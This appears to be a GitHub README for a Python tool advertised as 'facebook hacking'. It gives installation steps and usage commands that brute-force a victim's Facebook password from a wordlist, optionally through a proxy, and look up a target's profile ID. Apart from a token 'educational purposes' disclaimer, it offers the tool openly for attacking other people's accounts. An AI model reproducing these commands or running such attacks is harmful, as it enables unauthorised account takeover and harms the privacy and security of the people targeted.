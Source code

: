 ### **Language is used to Make this tool**

- python
### **The Tool is for .** 
**Commands to run tool in ur terminal Termux && Kali Linux**

_facebook hacking_ 👍🏼

![_5619ffb8-062e-495f-8d5c-6b8e61313e3f](https://github.com/user-attachments/assets/6b60281a-ed9b-4afa-9509-a9b2b6f5c6a1)


> installation
`Note : Tool is Made of Educational Purposes only.
      Please try not to harm anyone device 
      it's For Fun Purpose Not For Revenge
      (Join Us https://asifgk.website3.me)`
```python
apt update && apt upgrade -y
``` 
```python
apt install git -y
``` 
```python
git clone https://github.com/mdaminulislamasif/facebook-hack.git
``` 
```python
cd mdaminulislamasif
``` 
```python
bash setup
``` 
```python
python facebook_hack.py
``` 
### **usage:)**

- U can Use Victim email Or Facebook Profile Id:
- Brute Force On Facebook Account Without proxy:
- Command: python facebook_hack.py -t [victim@gmail.com](mailto:victim@gmail.com) -w 10MPASS.txt
- Brute Force On Facebook Account With Proxy:

- [ ] Command: python facebook_hack.py -t [victim@gmail.com](mailto:victim@gmail.com) -w 10MPASS.txt -p 144.217.101.245:3129
- [ ] Get Target Facebook Profile ID:
- [ ] Command: python facebook_hack.py -g https://www.facebook.com/zuck
